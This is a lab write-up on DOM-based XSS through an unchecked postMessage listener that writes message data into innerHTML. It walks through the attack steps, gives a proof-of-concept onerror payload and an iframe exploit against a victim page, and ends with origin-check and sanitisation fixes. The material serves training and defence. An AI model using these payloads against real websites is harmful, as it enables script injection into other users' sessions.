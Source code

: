 ## DOM-based vulnerabilities

### Lab: DOM XSS using web messages


The code:

```
window.addEventListener('message', function(e) {
                            document.getElementById('ads').innerHTML = e.data;
                            })

```

### What’s happening:

- The page listens for messages sent to it via postMessage or other frames/windows.

- Whatever e.data contains is directly inserted into the DOM via innerHTML without sanitization.

- If an attacker can send a crafted message to the page, they can inject arbitrary HTML/JS.

### Why it’s vulnerable
```
- innerHTML interprets input as HTML, so <script> or event handlers (like onerror) will execute.

- The developer has not validated origin (i.e., e.origin) or sanitized e.data.
```

### Attack Steps
- Identify the vulnerable listener:

  - Look for window.addEventListener('message', ...) in JS.

  - Check if the callback uses innerHTML or document.write with untrusted data.

- Verify there’s no origin check:
   ```
   if (e.origin !== "https://trusted-site.com") return;
   If missing → vulnerable.
   ```
- Craft a malicious message to exploit:
	```
	window.postMessage('<img src=x onerror=alert(1)>', '*');
    '*' sends to any origin.
    The payload uses an event handler (onerror) to trigger JavaScript.
  
    ```


### Real-World Exploit
- If you can open the target page in an iframe or another tab, you can inject:

```

<iframe src="https://victim.com"></iframe>
<script>
    // Wait until iframe loads, then send payload
    window.frames[0].postMessage('<img src=x onerror=alert(document.domain)>', '*');
</script>
```


### Fix
Validate origin:
```
if (e.origin !== "https://trusted-site.com") return;
Sanitize data (e.g., DOMPurify) before inserting into the DOM:

document.getElementById('ads').innerHTML = DOMPurify.sanitize(e.data);
Avoid using innerHTML unless necessary — use textContent for plain text.
```